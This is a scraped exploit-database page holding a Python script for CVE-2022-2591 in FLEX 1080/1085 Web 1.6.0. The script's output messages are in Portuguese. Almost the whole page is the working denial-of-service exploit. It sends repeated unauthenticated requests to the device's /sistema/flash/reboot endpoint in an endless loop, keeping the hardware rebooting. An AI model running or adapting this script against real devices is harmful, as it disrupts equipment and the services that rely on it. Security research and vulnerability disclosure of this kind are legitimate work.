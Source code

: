 ```yaml
---
title: FLEX 1080 &lt; 1085 Web 1.6.0 - Denial of Service exploit
url: https://sploitus.com/exploit?id=EDB-ID:51438&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-14
fetch_date: 2025-10-04T11:36:49.322325
---
```


# FLEX 1080 &lt; 1085 Web 1.6.0 - Denial of Service exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for FLEX 1080 < 1085 Web 1.6.0 - Denial of Service CVE-2022-2591

2023-05-13 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51438
# Exploit Title: FLEX 1080 < 1085 Web 1.6.0 - Denial of Service
# Date: 2023-05-06
# Exploit Author: Mr Empy
# Vendor Homepage: https://www.tem.ind.br/
# Software Link: https://www.tem.ind.br/?page=prod-detalhe&id=94
# Version: 1.6.0
# Tested on: Android
# CVE ID: CVE-2022-2591
#!/usr/bin/env python3
import requests
import re
import argparse
from colorama import Fore
import time

def main():
    def banner():
        print('''
            ________    _______  __
           / ____/ /   / ____/ |/ /
          / /_  / /   / __/  |   /
         / __/ / /___/ /___ /   |
        /_/   /_____/_____//_/|_|

[FLEX 1080 < 1085 Web 1.6.0 - Denial of Service]

''')
    def reboot():
        r = requests.get(f'http://{arguments.target}/sistema/flash/reboot')
        if 'Rebooting' in r.text:
            pass
        else:
            print(f'{Fore.LIGHTRED_EX}[-] {Fore.LIGHTWHITE_EX}O hardware
não é vulnerável')
            quit()

    banner()
    print(f'{Fore.LIGHTBLUE_EX}[*] {Fore.LIGHTWHITE_EX} Iniciando o ataque')
    while True:
        try:
            reboot()
            print(f'{Fore.LIGHTGREEN_EX}[+] {Fore.LIGHTWHITE_EX} Hardware
derrubado com sucesso!')
            time.sleep(1)
        except:
#            print(f'{Fore.LIGHTRED_EX}[-] {Fore.LIGHTWHITE_EX}O hardware
está inativo')
            pass

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-t','--target', action='store', help='Target',
dest='target', required=True)
    arguments = parser.parse_args()
    try:
        main()
    except KeyError:
        quit()
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)